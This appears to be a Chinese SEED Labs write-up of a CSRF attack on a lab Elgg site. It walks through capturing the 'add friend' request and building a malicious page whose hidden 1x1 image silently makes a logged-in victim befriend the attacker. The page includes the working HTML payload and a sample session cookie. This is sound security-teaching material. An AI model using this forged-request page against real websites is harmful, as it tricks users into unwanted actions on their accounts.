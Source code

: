 # 针对HTTP GET服务的CSRF攻击

攻击思路：构造好发送到目标网站的url，这个url因为没有cookie信息，直接运行目标服务器会拒绝。只需在恶意网站中加入
这个url的标签，目标用户浏览器上是有目标网站的cookie的，让目标用户访问恶意网页即可。  

实验目标：攻击添加好友服务，将攻击者加为目标用户的好友。

!!! warning

    这个实验一定要看seed lab官网了，书上没有写账户和密码

根据[Seed Lab官网说明](https://seedsecuritylabs.org/Labs_16.04/PDF/Web_CSRF_Elgg.pdf), 账号密码如下  
![csrf账号密码](../img/csrf-pwd.png)

**攻击步骤**：  
### 1、观察获取所需字段

首先登陆Samy账户，打开Tools-Web Developer-Network，进入到Charlie页面，点add friend按钮，确定添加请求的url：  
![添加好友请求](../img/csrf-request.png)
可以看到请求url为：  
http://www.csrflabelgg.com/action/friends/add?friend=44&__elgg_ts=1618931955&__elgg_token=vm9r0s3F_s8M_k4SI5H0oQ&__elgg_ts=1618931955&__elgg_token=vm9r0s3F_s8M_k4SI5H0oQ  
从上面可知，Samy的id为44，__elgg_ts和__elgg_token是为了应对CSRF攻击的对策，由于已经关闭不再需要  
最终需要构造的url为：  
http://www.csrflabelgg.com/action/friends/add?friend=44  

Cookie:	Elgg=haq1dp4mom04af6am97n1ggkc4  
这是Charlie的会话cookie，浏览器会自动为http请求设置cookie字段，攻击者不需要设置该值  

### 2、构建恶意网页

```html
<html>
    <body>
        <h1>This page forges an HTTP GET request.</h1>
        
        <img src="http://www.csrflabelgg.com/action/friends/add?friend=44" 
            alt="image" width="1" height="1" />
    </body>
</html>
```
由于url没有返回图像，为了不让用户起疑，故设置图像大小为1*1像素，这样图像非常小难以发现。  
这个网页由攻击者Samy控制，这个页面放在/var/www/CSRF/Attacker
![构建恶意网页](../img/csrf-evilweb.png)

### 3、吸引用户访问恶意网站

比如用Alice账户登录，点恶意网页www.csrflabattacker.com
![访问恶意网页](../img/csrf-visit-evil.png)

可以看到Alice的好友增加了Samy  
![攻击成功](../img/csrf-attack-success.png)

!!! warning

    上面这个图显示有点问题，应是Alice is now a friend with Samy，原因是上面那个friend=44开始
    写成了42